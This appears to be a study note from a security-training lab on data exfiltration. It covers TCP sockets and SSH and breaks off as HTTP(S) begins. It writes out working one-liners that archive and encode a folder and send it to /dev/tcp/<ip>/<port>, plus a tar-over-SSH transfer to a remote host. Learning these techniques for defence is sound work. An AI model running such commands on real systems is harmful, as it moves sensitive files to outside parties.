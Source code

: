 ## Data Exfiltration

##### What is Data Exfiltration

Data exfiltration is moving a sensitive data from inside the organization's network to the outside, it is also used to hide malicious activity and bypass security products.

##### How to Use Data Exfiltration

Traditional data exfiltration: Using one or more network requests to transfer data from the organization out.

C2 communications: The attacker sends a request to execute a command in the victim's machine, in result the data passes to the attacker over standard or non-traditional protocol.

Tunneling: The attacker establishes a communication channel that acts as abridge, resulting in a continuous traffic sent and received.

## Exfiltration Using TCP Socket

Since we relay on non-standard protocols with this technique, it's only recommended to use it in a non-secure environments.

We will also use other techniques like data encoding and archiving.

`nc -lvp <port> > <file location>` - Receive data to a file.
`tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/<ip address>/<port>` - Transfer the file to your machine.

1. We used the tar command to create an archive file.
2. We created a base64 representation of the tar file.
3. We created and copied a backup file using EBCDIC encoding data.
4. We transfored the file to the TCP socket we created.

`dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar` - Convert the received data back to his original status.
`tar xvf task4-creds.tar` - Unarchive the file.

## Exfiltration Using SSH

We can use the `scp` command or use the SSH client to transfer data over SSH.

For using a client the attacker need to control a server.

`tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"` - Archive the data and transfer it using SSH.

1. Create an archive file.
2. We than passed the archived file over SSH.
3. We passed the command to be executed.

## Exfiltrate Using HTTP(S)

For this technique the attacker will needs control over a web server with a server-side programming language installed and enabled.
